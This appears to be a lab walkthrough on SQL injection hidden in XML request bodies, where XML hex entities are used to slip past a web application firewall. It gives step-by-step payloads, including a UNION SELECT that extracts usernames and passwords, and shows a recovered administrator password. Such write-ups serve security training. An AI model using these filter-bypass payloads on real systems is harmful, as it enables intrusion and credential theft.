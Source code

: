 XML is closely related to HTML and also supports character encoding using the same numeric escape sequences. This enables you to include special characters in the text content of elements without breaking the syntax, which can come in handy when testing for XSS via XML-based input, for example.

Even if you don't need to encode any special characters to avoid syntax errors, you can potentially take advantage of this behavior to obfuscate payloads in the same way as you do with HTML encoding. The difference is that your payload is decoded by the server itself, rather than client-side by a browser. This is useful for bypassing WAFs and other filters, which may block your requests if they detect certain keywords associated with SQL injection attacks.

XML-based SQL injection uses an XML escape sequence to encode the `S` character in `SELECT`:
 ```xml
 <stockCheck>
  <productId> 123 </productId>
  <storeId>
  999 &#x53;ELECT \* FROM information_schema.tables
</storeId>
</stockCheck>

````

# Lab: SQL injection with filter bypass via XML encoding

### step1
```xml
<stockCheck>
<productId>1</productId>
<storeId>
1
</storeId>
</stockCheck>
````

### step2

```xml
<stockCheck>
<productId>1</productId>
<storeId>
1+1
</storeId>
</stockCheck>
```

### step3

```sql
<stockCheck>
<productId>1</productId>
<storeId>
1 UNION SELECT NULL
</storeId>
</stockCheck>
```

### step4

```sql
<stockCheck>
<productId>1</productId>
<storeId>
<@hex_entities>
1 UNION SELECT username || '~' || password FROM users
<@/hex_entities>
</storeId>
</stockCheck>
```

administrator~mv28p7lrhcwmbk3feit0

note: to use `@hex_entities` you have to install extensions called `Hackvector`
**Extensions > Hackvertor > Encode > dec_entities/hex_entities**.
